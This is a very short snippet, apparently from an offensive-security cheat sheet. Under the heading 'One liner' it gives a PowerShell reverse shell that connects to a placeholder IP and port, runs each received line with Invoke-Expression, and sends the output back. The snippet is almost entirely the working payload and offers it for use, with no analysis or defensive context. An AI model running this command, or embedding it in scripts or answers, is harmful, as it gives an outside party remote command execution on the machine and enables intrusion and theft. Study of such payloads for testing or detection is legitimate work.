 ### One liner
'''
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);$stream = $client.GetStream();$writer = new-object System.IO.StreamWriter($stream);$writer.AutoFlush = $true;$reader = new-object System.IO.StreamReader($stream);while($true) {$cmd = $reader.ReadLine();$output = Invoke-Expression $cmd;$writer.WriteLine($output);};$client.Close();"
'''
